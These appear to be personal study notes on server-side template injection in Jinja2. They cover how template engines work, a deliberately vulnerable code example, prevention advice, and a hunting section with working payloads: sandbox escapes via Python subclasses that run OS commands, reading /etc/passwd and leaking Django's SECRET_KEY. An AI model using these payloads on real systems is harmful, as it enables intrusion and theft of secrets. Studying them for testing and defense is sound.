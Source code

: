 ### what && why
 *Template engines* are a type of software used to determine the appearance of a web page. *ssti* is an attack against this engines 
 - template engines combine application data with web templates to produce web pages. 
 - These web templates, written in template languages such as Jinja
 - Together, web templates and template engines allow developers to separate server-side application logic and client-side presentation code during web development.
 Jinja2  `example.jinja`
 ```python
<html>
	<body>
	<h1>{{ list_title }}</h1> 
	<h2>{{ list_description }}</h2>
	{% for item in item_list %} 
		{{ item }} 
		{% if not loop.last %},{% endif %} 
	{% endfor %} 
	</body>
</html>
```
above code contains special syntax to indicate content that the template engine should interpret as template code. In Jinja, any code surrounded by `{{ }}` is interpreted as a Python *expression*( var or fun return a value), and code surrounded `{% %}` should be interpreted as a Python *statement*(doesn’t return value, but control *expression*s).
following piece of Python code reads the template file from `example.jinja` and generates an HTML by place the provided values in place. 
```python
from jinja2 import Template 
with open('example.jinja') as f:
	tmpl = Template(f.read())
	print(tmpl.rander(
		list_title = "List 1", 
		list_description = "Here are the contents of List 1", 
		item_list =["nust a temp string","nust a temp string","nust a temp string"]
	))
```
above code is save cause user can't send input, also following code is save cause the developer separate between template code and user input  
```python
from jinja2 import Template 
with open('example.jinja') as f:
	tmpl = Template(f.read())
	print(tmpl.rander(
		list_title = user_input.title, 
		list_description = user_input.disc, 
		item_list =user_input.items
	))
```
SSTI happened when the developer mixed the user input with the template code without sanitize user input. the template engine can’t determine where a piece of user-supplied data ends and where the template logic starts, the template engine will mistake user input for template code. 
```python
from jinja2 import Template 
tmpl = Template(" <html><h1>The user's name is: " + user_input + "</h1></html>")
print(tmpl.render())
```
### Prevention  
-  regularly patching and updating the frameworks
- use sandbox environments to remove potentially dangerous modules, functions, making user-submitted templates safer to evaluate
- Implement an allowlist for allowed attributes in templates to prevent the kind of RCE exploit
-  return a generic error page to the user.
- sanitize user input before embedding it into web templates
### hunt for it
1. Look for User-Input Locations
	1. URL paths, parameters, fragments, HTTP request headers and body, file uploads
2. Detect Template Injection by Submitting Test Payloads
	1. `{{1+ax}}${1+bx}<%1+abx%>[abcxx]` look for application error
	2. some apps generate a generic error so u need to test it until u find the correct output, which not always returned in same page
	   `${7*7}` works for the FreeMarker and Thymeleaf Java templates; 
	   `{{7*7}}` works for PHP templates such as Smarty or Twig, and Python templates like Jinja2; and `<%= 7*7 %>` works for the ERB template
1. Determine the Template Engine in Use in order to escalate the attack
#### Escalating the Attack
Being able to execute system commands is extremely valuable for the attacker because it might allow them to read sensitive system files like customer data and source code files, update system configurations, escalate their privileges on the system,[[RCE]] ,and attack other machines on the network
- Searching for System Access via Python Code most of that u find a Sandbox => `{{__import__('os').system('ls')}}
- Escaping the Sandbox by Using Python Built-in Functions
	1. (as Jinja not allow us to `import os`, so we need to use what we have such : `'<class 'warnings.catch_warnings'>'`, `<class 'subprocess.Popen'>` or any class that import `sys` or `os` for us)
	2. list all classes available to use on object `().__class__.__base__.__subclasses__()` an we have the list, by using ctl+f we can find the index of `'<class 'warnings.catch_warnings'>'` -> **index:186** ,and `<class 'subprocess.Popen'>` -> **index:414**
    > 	we can use whatever we wont in the place of () such empty string '' as every thing in python is an object

	1. after we known the index we can access `sys module` that imported on `warnings.catch_warnings` class, get `os` module and, run commands using `popen` fun `<get_class>.__init__.__globals__['sys'].modules['os'].popen(<cmd>).read()`
	2. collect all `{{().__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`
	or u can use if statement
	```python
	{% for x in [].__class__.__bases__[0].__subclasses__() %} 
	{% if 'catch_warnings' in x.__name__ %} 
	{{x()._module.__builtins__['__import__']('os').system('ls')}} 
	{%endif%} 
	{%endfor%}
	```
	Different template engines require different escalation techniques more from  [CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)[HackTricks](https://book.hacktricks.xyz/misc/basic-python/ bypass-python-sandboxes/),[Programmer Help](https://programmer.help/blogs/python-sandbox-escape.html) 
- Submitting Payloads for Testing, doesn’t harm the system you’re targeting, `cat /etc/passwd` , `touch SSTI_devMRT.txt`
- [[vulns checklist/Information Disclosure|Information Disclosure]] 
	- Django => `{{settings.SECRET_KEY}}`
- Automating 
	- [tplmap](https://github.com/epinna/tplmap/) **does not support every template engine**